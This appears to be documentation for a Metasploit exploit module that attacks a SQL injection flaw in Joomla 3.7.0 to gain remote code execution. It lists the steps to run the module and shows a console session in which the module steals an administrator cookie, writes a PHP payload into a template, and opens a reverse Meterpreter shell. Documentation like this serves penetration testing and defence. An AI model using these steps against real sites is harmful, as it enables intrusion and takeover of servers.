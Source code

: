 ## Vulnerable Application

  This module exploits a sql injection in the core of Joomla 3.7.0.
  This vulnerability can allow remote code execution.

## Verification


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomal 3.7.0 and an administrator must be authenticated in the backend

```
msf > use exploit/unix/webapp/joomla_comfields_sqli_rce 
msf exploit(joomla_comfields_sqli_rce) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(joomla_comfields_sqli_rce) > set TARGETURI joomla_demo
TARGETURI => joomla_demo
msf exploit(joomla_comfields_sqli_rce) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 192.168.0.15:80 - Retrieved table prefix [ l6crq ]
[*] 192.168.0.15:80 - Retrieved admin cookie [ 0nva1b7d2re73dojsakmq5gqs5 ]
[*] 192.168.0.15:80 - Retrieved unauthenticated cookie [ b41f947841f591f08bb4203036a1b7d3 ]
[+] 192.168.0.15:80 - Successfully authenticated as Administrator
[*] 192.168.0.15:80 - Creating file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Following redirect to [ /joomla_demo/administrator/index.php?option=com_templates&view=template&id=503&file=LzRkdXFPUVdqcXljRTEucGhw ]
[*] 192.168.0.15:80 - Token [ cdec8f07a07e2810437f8f8a148b7628 ] retrieved
[*] 192.168.0.15:80 - Template path [ /templates/beez3/ ] retrieved
[*] 192.168.0.15:80 - Insert payload into file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Payload data inserted into [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Executing payload
[*] Sending stage (37543 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (192.168.0.24:4444 -> 1.2.3.4:49586) at 2018-03-06 20:20:22 -0500
[+] Deleted 4duqOQWjqycE1.php

meterpreter > sysinfo
Computer    : luisco-VirtualBox
OS          : Linux luisco-VirtualBox 4.10.0-38-generic #42~16.04.1-Ubuntu SMP Tue Oct 10 16:32:20 UTC 2017 x86_64
Meterpreter : php/linux

```
